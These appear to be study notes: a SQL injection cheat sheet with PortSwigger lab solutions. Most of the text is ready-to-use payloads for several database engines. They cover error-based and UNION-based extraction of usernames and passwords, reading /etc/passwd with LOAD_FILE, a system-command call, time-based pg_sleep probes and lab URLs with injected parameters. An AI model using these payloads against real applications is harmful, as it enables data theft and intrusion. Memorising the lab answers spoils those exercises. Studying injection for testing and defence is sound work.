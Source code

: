 ## Payloads
- `select id from demo where name='test' and extractvalue(1, concat(0x7c, (select schema_name from information_Schema.schemata limit 1,1) ) )-- -'`  : only mysql/mariadb
- `do_system('whoami')` : Run a system command
- `LOAD_FILE('/etc/passwd')` : Read a file


## Common tools¶

    * Burp Suite: Introduction to Burp Suite

    * Tamper Data (Firefox addon)

    * HackBar (Firefox addon)

    * sqlmap: sqlmap user manual

## Injecting common parameters¶

    user(): current database user
    database(): current database name
    version(): the currently used database version
    @@datadir: database storage data path
    concat(): Union data used to combine two data results. Such as concat(username,0x3a,password)
    group_concat(): Similar to concat(), such as group_concat(DISTINCT+user, 0x3a, password), used to inject multiple pieces of data at once
    concat_ws(): usage is similar
    hex() and unhex(): for hex encoding and decoding
    load_file(): Read the file as text. In Windows, the path is set to \\
    select xxoo into outfile &#39;path&#39;: can write files directly when the permission is high


## Finding the Database Version
**MySQL and MSSQL** 
`',nickName=@@version,email='` <br>
**For Oracle** 
`',nickName=(SELECT banner FROM v$version),email='`<br>
**For SQLite** 
`',nickName=sqlite_version(),email='`

## Error-Based
* `CASE
    WHEN condition1 THEN result1
    WHEN condition2 THEN result2
    WHEN conditionN THEN resultN
    ELSE result
END;`
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
* `CAST((SELECT example_column FROM example_table) AS int)`
* * Oracle 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
  * Microsoft 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
  * PostgreSQL 	`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
  * MySQL 	`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `


### Extra
* `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='` 

* `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

* `',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='`
* `2 UNION SELECT 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4 fRoM information_schema.schemata-- `

### Portswigger Lab Solution

************Lab 1:************

[`https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--`](https://0ae400e603589e9682b8f6d70007000d.web-security-academy.net/filter?category=Accessories%27%20or%201=1--)

In short: `‘ or 1=1—`

************Lab 2:************

Username: administrator’—

password: anything

************Lab 3:************

[`https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--`](https://0ab7007f04c9464f81aad5ee002600c7.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%27%20union%20select%20null,null,null--)

In short: `‘union select null,null,null—`

************Lab 4:************

`' union select null,'snEL3e',null—`

************Lab 5:************

`' union select username, password from users—`

************Lab 6:************

`' union select null,username || '~' || password from users—`

************Lab 7:************

`' union select banner,null from v$version—`

************Lab 8:************

`' union select null,@@version#`

************Lab 9:************

`' union select table_name,null from information_schema.tables—`

`' union select column_name,null from information_schema.columns where table_name = 'users_nrdogg'—`

`' union select username_rkwgpt,password_vkiejw from users_nrdogg—`

**************Lab 10:**************

`' union select table_name,'null' from all_tables—`

`‘ union select column_name,null from all_tab_columns where table_name=’USERS_AFMITF’—`

`' union select USERNAME_PZTRWZ,PASSWORD_GTYDKD from USERS_AFMITF—`

**************Lab 11:**************

Test by injecting the following code to the cookie value:

`…xyz and 1=1` It should take you to the welcome page

`…xyz and 1=0` It won’t take you to the welcome page

If those codes show desired outputs, the website is vulnerable to SQL Injection

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a’`--

If it shows a welcome page, there is a table called users

`' and substring((select 'a' from users where username='administrator'),1,1)='a'—`

If it shows a welcome page, there is an user named administrator

https://www.youtube.com/watch?v=LBG_n9fr8sM

**************Lab 14:**************
<br>  <br>
`TrackingId=' || pg_sleep(10)-- -`

**Lab 15:**

Use “Response Received” column from intruder and use it to sort the characters that took the most time

New Learned
--------------


## CheatSheets
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Advanced SQL Injection](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* [CTF-Wiki](https://ctf-wiki.mahaloz.re/web/sqli/)

